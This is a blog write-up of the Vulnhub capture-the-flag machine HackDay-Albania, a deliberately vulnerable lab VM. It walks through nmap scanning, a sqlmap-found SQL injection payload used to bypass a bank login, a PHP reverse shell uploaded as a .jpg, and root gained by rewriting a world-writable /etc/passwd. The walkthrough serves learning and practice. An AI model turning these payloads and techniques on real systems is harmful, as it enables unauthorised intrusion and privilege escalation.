```yaml
---
layout: single
title: "Vulnhub Write-up #2 : HackDay-Albania"
excerpt: "Writeup for 'HackDay-Albania' machine from vulnhub."
date: 2020-05-06
header:
  teaser: /assets/images/Stripe-Vulnhub/vulnhub.png
  teaser_home_page: true
classes: wide
categories:
  - vulnhub
  - infosec
tags:
  - sqli  
  - auth-bypass
  - write-perm
---
```



In this writeup we are looking at HackDay-Albania from Vulnhub.
I spent time to complete this VM as it took my atention as the first Albanian VM I have ever seen since I am an albanian too and would be interested to take a look. This machine has quite an interesting walkthrough with beginner to intermediate level steps.
Starts with a vulnerable bank from where we can drop a reverse shell and then write to /etc/passwd to escalate to root. Lets dig in:

## Enumeration 
As always starting with a nmap scan after setting up the image to virtualbox and powering it on we get those results :
```
root@kali:~# nmap -sC -A 192.168.1.6
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-06 20:00 CEST
Nmap scan report for 192.168.1.6
Host is up (0.00025s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 39:76:a2:f0:82:5f:1f:75:0d:e4:c4:c5:a7:48:b1:58 (RSA)
|   256 21:fe:63:45:2c:cb:a1:f1:b6:ba:36:dd:ed:d3:d9:48 (ECDSA)
|_  256 25:94:fb:00:c2:c0:ef:30:4a:02:d2:39:d5:57:17:a8 (ED25519)
8008/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 26 disallowed entries (15 shown)
| /rkfpuzrahngvat/ /slgqvasbiohwbu/ /tmhrwbtcjpixcv/ 
| /vojtydvelrkzex/ /wpkuzewfmslafy/ /xqlvafxgntmbgz/ /yrmwbgyhouncha/ 
| /zsnxchzipvodib/ /atoydiajqwpejc/ /bupzejbkrxqfkd/ /cvqafkclsyrgle/ 
|_/unisxcudkqjydw/ /dwrbgldmtzshmf/ /exschmenuating/ /fytdinfovbujoh/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: HackDay Albania 2016
MAC Address: 08:00:27:DC:2E:3D (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.25 ms 192.168.1.6

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.65 seconds
```
Port 22 (SSH) and Port 8008 (HTTP) opened...
The HTTP Server comes up with a bunch of random word directories which seem weird to me.

I firstly tried to navigate to the HTTP server and look for something around : 

![message](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/HackDay-Vulnhub/1.png)

This is the image presented in the root page alongside with a message written in Albania language which means :

`If it's me, I know where to go ;)`

Interesting...

After failing to grab any other possible information from the http server I randomly picked one and tried to navigate to it and ended up with the following result :
![wrong](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/HackDay-Vulnhub/2.png)

Another image with a message in albanian which means : 

`is this the right directory? or am I loosing my time?`

I found this helpful because while randomly navigating to other directories this could help us identify the useful directory...
After some attempts `/unisxcudkqjydw/` returns with the following message :

``IS there any /vulnbank/ in there ??? ``

## Initial Foothold

I tried to navigate to ``/unisxcudkqjydw/vulnbank`` and it seemed like it was a valid directory with content on it :

![dir](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/HackDay-Vulnhub/3.png)

Accessing ``client/`` shows the following site :

![client](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/HackDay-Vulnhub/4.png)

A login page which is probably vulnerable to sql injection , however the usual manual injections didnt work so I decided to fire sqlmap against it :

```
root@kali:~# sqlmap -u http://192.168.1.6:8008/unisxcudkqjydw/vulnbank/client/login.php --forms
```

![sqlmap](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/HackDay-Vulnhub/5.png)

``ctSS' RLIKE SLEEP(5)-- sohc`` and empty username seems to be legit for sqlmap... so why not for us? 
I went to try it to the login page and was able to succesfully bypass the login page :

![site](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/HackDay-Vulnhub/6.png)

A upload option is presented to us in the main page which means : MONEY! 
I tried to upload a random thing and got the following warning : 

``After we got hacked we our allowing only image files to upload such as jpg , jpeg , bmp etc...``

My first thought was that we could make a reverse shell written in php and inject magic bytes in the beggining of the file so the server would identify it as a JPG file so I went ahead to try that :
```
root@kali:~# echo -e '\xff\xd8\xff\xdb' > fake.php.jpg
```

After injecting the magic byte to the ``fake.php.jpg`` we can go ahead and edit it with `vi` or any preferred text editor and paste the php reverse shell code.

Afterwards I tried to upload , however no luck with this method and no reverse shell was poped which made me confused...
I made a second attempt but this time I simply copied the php reverse shell code in a .jpg file format and tried to upload it :
```
root@kali:~# cp /usr/share/webshells/php/php-reverse-shell.php shelltest.jpg
```

After clicking `View Ticket` in the main page I finally got a response :

![site](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/HackDay-Vulnhub/8.png)

Finally a reverse shell as `www-data` 

## Escalating to User
I quickly located the bank files in machine and went through config.php to see for a possible password reuse somewhere :

![site](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/HackDay-Vulnhub/9.png)

Woaah!! Nice password over there , but not the correct one to `su` as ``taviso`` so I used the credentials to login to the mysql database and maybe find some other passwords :

![site](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/HackDay-Vulnhub/11.png)

2 more useless passwords appeared which again didnt work , so I began to enumerate more...

I was trying to find writable permissions when I found something interesting :
```
www-data@hackday:/$ ls -la /etc/passwd
ls -la /etc/passwd
-rw-r--rw- 1 root root 1623 Oct 22  2016 /etc/passwd
```

I have write access over /etc/passwd and the first guess was to add a new password for user : ``taviso`` so I copied the contents of file in my machine , generated a new password for taviso : ``albania`` and re-uploaded the file to the machine :

```
root@kali:~# openssl passwd -1
Password: 
Verifying - Password: 
$1$JMlW1qnd$3BOKOiF3ePP4aJ.RuAf4e0
```
```
www-data@hackday:/tmp$ cp passwd /etc/passwd
cp passwd /etc/passwd
www-data@hackday:/tmp$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
taviso:$1$JMlW1qnd$3BOKOiF3ePP4aJ.RuAf4e0:1000:1000:Taviso,,,:/home/taviso:/bin/bash
www-data@hackday:/tmp$ 
```

Now I can simply try to su as taviso using the password we set :
![site](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/HackDay-Vulnhub/12.png)

And ... we are in as Taviso!


## Root Privesc
The first basic enumeration for the next privesc ``sudo -l`` gave me enough to do the next step : 

```
taviso@hackday:/tmp$ sudo -l
sudo -l
[sudo] password for taviso: albania

Matching Defaults entries for taviso on hackday:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User taviso may run the following commands on hackday:
    (ALL : ALL) ALL
taviso@hackday:/tmp$ 
```

Seems like user ``Taviso`` has permission to run any command as sudo and seems like we can simply use ``sudo su`` to grab a root shell:

![site](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/HackDay-Vulnhub/13.png)

I really liked this machine and I was so excited to try out an Albanian Machine. 


{% include support.html %}
